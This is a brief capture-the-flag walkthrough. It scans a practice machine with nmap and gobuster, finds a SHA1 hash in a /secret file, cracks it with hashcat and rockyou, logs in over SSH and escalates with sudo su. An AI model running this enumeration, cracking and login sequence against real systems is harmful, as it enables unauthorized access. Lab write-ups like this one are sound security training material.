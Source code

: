 1. First I run 'nmap --script=vuln -sV IP'

I get that there's a /secret directory.

2. Then, 'gobuster dir IP/secret -x txt' 

Open IP/secret/secret.txt in a web browser and get 

nyan:046385855FC9580393853D8E81F240B66FE9A7B8
After assuming different hash modes...

3. 'hashcat -a 0 -m 100 046385855FC9580393853D8E81F240B66FE9A7B8 /usr/share/wordlists/rockyou.txt' 

This gives the password

4. 'ssh nyan@IP''

 enter the password given.
 
5. 'ls', 'cat user.txt', and 'sudo -l' 

We find that we can type 'sudo su' for privesc

6. 'cd /root', 'ls', and 'cat root.txt'

And...
# BOOM!
There's the password we need.
